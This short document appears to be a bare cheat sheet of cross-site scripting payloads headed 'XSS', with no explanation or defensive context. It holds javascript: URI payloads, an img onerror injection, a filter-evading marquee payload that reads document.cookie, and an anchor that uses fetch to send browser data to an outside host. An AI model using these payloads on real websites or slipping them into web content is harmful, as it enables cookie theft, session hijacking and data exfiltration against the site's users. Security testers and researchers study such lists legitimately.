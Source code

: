 # XSS


#data:text/html,<a href="javascript:'<img src=e onerror=alert()>';">click</a>

#<a href='fetch("//example.com?"+navigator.appVersion)'>test</a>

#<a href="javascript:{alert(00)confirm(00)}">POC</a>


<xml:namespace prefix="t">
<svg><style>&lt;img/src=x onerror=alert(document.domain)// </b>


<marquee loop=1 width=0 onfinish=co\u006efirm(document.cookie)>XSS</marquee>


